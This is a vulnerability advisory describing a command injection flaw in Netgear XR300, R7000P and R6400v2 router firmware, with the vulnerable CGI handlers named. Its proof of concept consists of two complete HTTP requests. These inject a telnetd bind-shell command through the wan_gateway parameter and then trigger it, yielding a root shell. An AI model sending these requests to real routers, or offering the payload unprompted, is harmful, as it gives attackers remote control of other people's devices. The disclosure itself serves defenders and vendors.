





# Netgear Vulnerability

Vendor:Netgear

Product:XR300、R7000P、R6400v2

Version:1.0.3.78、1.3.3.154、1.0.4.128

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in Netgear router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In the router's `genie_fix2.cgi` function, `wan_gateway` is directly passed by the attacker, so we can control the `wan_gateway` to attack the OS.

> R7000P in `genie_fix2.cgi、ru_wan_flow.cgi`
>
> R6400v2 in `genie_fix2.cgi、bsw_fix.cgi`

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

In `detwan.cgi` function, It calls the process `acos_service`.

<div  align="center"></div>

In `acos_service` binary:

In `sub_111E4` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `wan_gateway`, in `genie_fix2.cgi`
* visit the `detwan.cgi`


## PoC

We set `wan_gateway` as **192.168.31.1 %24%28telnetd+-l+%2Fbin%2Fsh+-p+8888+-b+0.0.0.0%29** , in `genie_fix2.cgi`

```http
POST /genie_fix2.cgi?id=35194adefcdfb559b35ae1419e5c8149e2bd3dfcf746290cb01862b2eedfcc6b HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 519
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/ND_fix.htm
Cookie: XSRF_TOKEN=2815637963
Upgrade-Insecure-Requests: 1

WPethr=192.168.31.53&WMask=255.255.255.0&WGateway=192.168.31.1&DAddr=192.168.31.1&PDAddr=192.168.31.1&WPethr1=192&WPethr2=168&WPethr3=31&WPethr4=53&WMask1=255&WMask2=255&WMask3=255&WMask4=0&WGateway1=192&WGateway2=168&WGateway3=31&WGateway4=1&DAddr1=192&DAddr2=168&DAddr3=31&DAddr4=1&PDAddr1=192&PDAddr2=168&PDAddr3=31&PDAddr4=1&wan_ipaddr=192.168.31.53&wan_netmask=255.255.255.0&wan_gateway=192.168.31.1 %24%28telnetd+-l+%2Fbin%2Fsh+-p+8888+-b+0.0.0.0%29&DNSAssign=1&wan_dns1_pri=192.168.31.1&wan_dns1_sec=192.168.31.1
```

<div  align="center"></div>

visit the `detwan.cgi`

```http
POST /detwan.cgi?id=4d29b1f616ca35aaa1739cc67e8035e8674b18658436cffc5806f88c2d849295 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/WIZ_detwan.htm
Cookie: XSRF_TOKEN=2815637963
Upgrade-Insecure-Requests: 1

WDect=Execute
```


## Result

Get a shell!

<div  align="center"></div>
